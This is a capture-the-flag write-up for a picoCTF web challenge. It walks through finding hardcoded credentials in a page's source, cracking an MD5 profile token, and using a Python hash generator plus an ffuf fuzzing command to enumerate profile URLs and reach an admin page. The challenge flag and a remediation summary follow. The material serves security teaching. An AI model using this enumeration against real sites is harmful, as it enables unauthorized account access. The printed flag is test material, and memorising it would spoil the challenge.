






<div align="center">

# 🏔️ Crystal Peak — IDOR Bypass

[](https://play.picoctf.org/practice/challenge/750?category=1&page=2)
[]()
[]()
[]()

**Author:** Yahaya Meddy &nbsp;|&nbsp; **Technique:** IDOR + MD5 Enumeration + Hardcoded Credentials

</div>

---

## Challenge Description

> *You have gotten access to an organisation's portal. Submit your email and password, and it redirects you to your profile. But be careful: just because access to the admin isn't directly exposed doesn't mean it's secure. Maybe someone forgot that obscurity isn't security... Can you find your way into the admin's profile for this organisation and capture the flag?*

**Reading between the lines:** We need to find and access the **admin profile** to get the flag. The hint "obscurity isn't security" is a dead giveaway for an access control / IDOR vulnerability.

---

## Tools Used

| Tool | Purpose |
|------|---------|
| 🕷️ Burp Suite | Intercept & inspect HTTP requests/responses |
| 🔓 CrackStation | Identify & crack the hash type |
| 🐍 Python + hashlib | Generate MD5 hash wordlist |
| ⚡ ffuf | Fuzz profile URL endpoints |

---

##  Reconnaissance

### Step 1 - Opening the Target

The challenge presents a classic login portal with two fields: **Email** and **Password**.



First move: throw in random credentials and intercept the traffic with Burp Suite.



Expected result — `"Invalid credentials"`. Nothing unusual yet.

---

### Step 2 ; Burp Intercept: Spotting the JSON Response

Inspecting the failed login response in Burp reveals something interesting:

```json
{
  "success": false
}
```

> 💡 **Observation:** The response uses a boolean `success` flag. Can we manipulate this to `true`? Worth noting — but let's keep digging first.

---

### Step 3 ; Source Code Review: Hardcoded Credentials 🚨

Checking the page source (`Ctrl+U`) reveals a **critical developer mistake**:



> ⚠️ **Vulnerability #1:** Credentials hardcoded directly in the frontend source code. This is a classic secret exposure bug  never store credentials client-side.

Using those credentials → **Login succeeds.**

---

## 🎯 Identifying the IDOR Vulnerability

### Step 4 ; What Happens After Login?

After logging in, the app assigns us **Guest ID: `3000`** and redirects to:

```
http://crystal-peak.picoctf.net:49974/profile/user/e93028bdc1aacdfb3687181f2031765d
```



The page says: *"Only top-tier users can access the flag."*

That token in the URL — `e93028bdc1aacdfb3687181f2031765d` — looks like a hash. Let's figure out what it is.

---

### Step 5 — Hash Cracking with CrackStation

The hash is **32 characters long** → classic MD5 signature. Pasting it into [CrackStation](https://crackstation.net):

```
Hash:    e93028bdc1aacdfb3687181f2031765d
Type:    MD5
Result:  3000
```

**Wait — `3000`? That's our Guest ID!**

> 💡 **Vulnerability #2 (IDOR):** The application uses `MD5(userID)` as the profile URL token. It *looks* unguessable, but since user IDs are sequential integers, we can enumerate every possible hash. This is a textbook **Insecure Direct Object Reference (IDOR)**.

---

## ⚔️ Exploitation

### Step 6 — Building the MD5 Wordlist

Generate MD5 hashes for IDs `1` through `4000`:

```python
import hashlib

with open("md5_hash", "w") as f:
    for i in range(1, 4001):
        # MD5 hash of the integer as a string
        s = str(i)
        md5_hash = hashlib.md5(s.encode('utf-8')).hexdigest()
        print(f"{md5_hash}")
        f.write(f"{md5_hash}\n")
```

This writes **4000 MD5 hashes** to `md5_hash`, one per line — ready for fuzzing.

---

### Step 7 — Fuzzing with ffuf

```bash
ffuf -u http://crystal-peak.picoctf.net:51696/profile/user/FUZZ -w md5_hash
```



**ffuf finds two `200 OK` responses:**
- One matches our known Guest ID `3000` ✓
- The other is a **new, unknown user** → this must be the admin 🎯

---

### Step 8 — Accessing the Admin Profile

Replace the hash in the URL with the newly discovered one and navigate to it:

```
http://crystal-peak.picoctf.net:51696/profile/user/<admin_md5_hash>
```



---

## 🚩 Flag

```
picoCTF{id0r_unl0ck_e581be16}
```

---

## 📖 Vulnerability Summary

<details>
<summary><strong>🔴 Vuln #1 — Hardcoded Credentials in Source Code</strong></summary>

**Type:** CWE-798: Use of Hard-coded Credentials  
**Impact:** Any user who views the page source can authenticate as a legitimate user.  
**Fix:** Never store credentials in frontend code. Use server-side authentication with environment variables.

</details>

<details>
<summary><strong>🔴 Vuln #2 — Insecure Direct Object Reference (IDOR)</strong></summary>

**Type:** CWE-639: Authorization Bypass Through User-Controlled Key  
**Impact:** An attacker can enumerate all user profile URLs by generating MD5 hashes of sequential integers, bypassing access control.  
**Fix:** Use unpredictable UUIDs (v4) instead of hashed integers. Enforce server-side authorization checks on every profile request — never rely on URL obscurity.

</details>

---

## 🧠 Key Takeaways

- **Obscurity ≠ Security.** A "random-looking" hash is not authorization — it's just obfuscation.
- Always **check page source** for accidentally exposed secrets.
- **MD5 is not a secret.** Hashing a predictable value (like a sequential integer) gives you a predictable hash.
- **IDOR** vulnerabilities are about *missing authorization*, not *hidden URLs*.

---

## ⚡ Attack Chain (TL;DR)

```
[View Source] → Found hardcoded credentials
      ↓
[Login] → Got Guest ID: 3000 + profile URL with MD5 token
      ↓
[CrackStation] → MD5("3000") = e93028bdc1aacdfb3687181f2031765d
      ↓
[Python] → Generated MD5 hashes for IDs 1–4000
      ↓
[ffuf] → Fuzzed profile URL → found admin hash (200 OK)
      ↓
[Navigate] → Admin profile → 🚩 FLAG
```

---

<div align="center">

*Written by a curious hacker. Happy hacking! 🔐*

[](https://play.picoctf.org)

</div>
